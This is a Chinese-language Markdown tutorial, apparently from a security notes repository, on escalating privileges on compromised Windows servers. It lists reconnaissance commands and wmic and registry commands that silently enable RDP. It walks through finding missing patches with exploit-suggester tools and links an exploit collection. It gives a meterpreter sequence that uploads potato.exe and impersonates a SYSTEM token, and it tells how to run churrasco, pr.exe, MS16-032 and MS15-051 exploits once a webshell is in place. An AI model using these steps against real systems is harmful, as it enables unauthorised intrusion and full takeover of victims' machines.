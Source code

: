 # Windows提权

### 前期信息搜集

```
操作系统的名称和版本信号
    systeminfo | findstr  /B /C:"OS Name" /C:"OS Version"
    systeminfo | findstr /B  /C:"OS 名称"  /C:"OS 版本"
查看用户信息
    查看所有用户:"net user" 或者" net1 user"命令
    查看管理员用户组:"net localgroup administrators"或者
    "net1 localgroup administrators"命令
    查看远程终端在线用户:"query user"或者"quser"命令
查看远程端口(3389)
	1.获取对应的pid号:"tasklist /svc|find "TermService"命令
	2.通过PID号查询端口:"netstat –ano | findstr 1980"命令
查看网络配置情况
    网络配置情况:"ipconfig /all" 命令
    路由器信息:"route Print"命令
    查看arp缓存:"arp –a"命令
    查看网络连接:"netstat –ano"命令
    查看防火墙规则:
    netsh firewall show config
目录文件操作:
    列出c:\phpstudy下的所有目录
    	For /d %i in (c:\phpstudy\*) do @echo %i
    以当前目录为搜索路径,把当前目录及子目录中的全部exe文件列出:
    	For /r %i in (*.exe) do @echo %i
    以指定目录为搜索目录,把当前目录以及子目录中的所有文件列出:
   		for /r "目录名" %i  in (*.*) do echo %i
开启3389端口
	在windows server 2003 中,使用cmd命令开启3389:
        wmic path win32_terminalservicesetting where (__CLASS != "") call setallowtsconnections 1
        
	在windows server 2008/7/server 2012中,使用cmd开启3389端口
        1.Wmic 	/namespace:\\root Cimv2\terminalservices path win32_terminalservicesetting where (__CLASS != "") call setallowtsconnections 1
        2.Wmic /namespace:\\root\cimv2\terminalservices path win32_tsgeneralsetting 
Where (TerminalName=‘RDP-Tcp’) call setuserauthenticationrequired 1
		3.Reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server "
 /v fSingleSessionPerUser  /t REG_DWORD /d 0 /f 

		在windows server 2012 和windows 7 中只需要执行前2条命令.
```

## Windows 提权准备

### systminfo ，根据系统补丁提权

```
1.信息收集
2.根据操作系统的具体情况来决定提权

提权辅助工具

Windows exploit-suggester是一款提权辅助工具
```

#### 漏洞检测工具一、

**将目标服务器的systeminfo导出进行检测，这样不用在目标服务器安装python环境**

```
systeminfo > systeminfo.txt
```

**本地环境安装python2 模块**

```

python27 -m pip install xlrd 
如果装不上可以使用这个安装(也可以自己下载安装)
pip --trusted-host pypi.python.org install xlrd
```



![](./windows提权_Image/1.png)

**更新得到database(该文件存放的是漏洞检测内容) 文件**

```
python27 windows-exploit-suggester.py --update
```
![](./windows提权_Image/4.png)

![](./windows提权_Image/5.png)

**进行漏洞检**

```
python27 windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo systeminfo.txt
```



![](./windows提权_Image/6.png)

![](./windows提权_Image/7.png)

#### 漏洞检测工具二、

```
 使用wes.py –update进行更新
```



![](./windows提权_Image/11.png)

**将目标服务器的systeminfo导出进行检测，这样不用在目标服务器安装python环境**

```
systeminfo > systeminfo.txt
```

**将扫描得到的结果存放到result.txt文件中**

```
wes.py systeminfo.txt > result.txt
```



![](./windows提权_Image/12.png)

**查看result.txt得到可以利用的漏洞**

![](./windows提权_Image/12.png)
**提权成功率较高的exp网站**

```
https://github.com/SecWiki/windows-kernel-exploits
```

### ms16-075烂土豆复现

```
使用msf获取反弹shell之后，上传一个potato程序。使用use incognito 再查看有哪些会话可以利用，如果有系统权限的的会话就直接利用，如果没有就运行上传的potato程序，再查看可以利用的会话。进行权限提升
```

**ms16-075烂土豆盗取token令牌**

**在获取到webshell的前提下，上传一个反弹exe程序**

**使用potato.exe进行提权**

```
已经获取反弹会话

meterpreter > upload  /root/桌面/potato.exe C:\Users\Public
meterpreter > cd C:\\Users\\Public
meterpreter > use incognito
meterpreter > list_tokens -u
NT AUTHORITY\IUSR

meterpreter > execute -cH -f ./potato.exe
meterpreter > list_tokens -u
NT AUTHORITY\IUSR
NT AUTHORITY\SYSTEM

meterpreter > impersonate_token "NT AUTHORITY\\SYSTEM"
```

### ms09-012巴西烤肉提权复现

**受影响的操作系统**

```
Windows 2008 x64 x86;XP;Server 2003 sp1 sp2;
```

**使用条件：必须可以执行cmd命令**

```
churrasco.exe是利用一个2003本地提权漏洞，通过此工具可以执行命令，从而可以达到添加用户的目的。
```

### pr提权

```
需要上传pr.exe程序

windows跟踪注册表项的ACL权限提升漏洞
```

### ms16-032提权复现

**在获取到webshell的前提下，上传一个ms16-032.exe程序，执行之后就会弹出一个具有系统权限的cmd会话**

![](./windows提权_Image/8.png)

### ms15-051提权复现

**在获取到webshell的前提下，上传一个ms15-051.exe程序，执行之后就会弹出一个具有系统权限的cmd会话**

![](./windows提权_Image/9.png)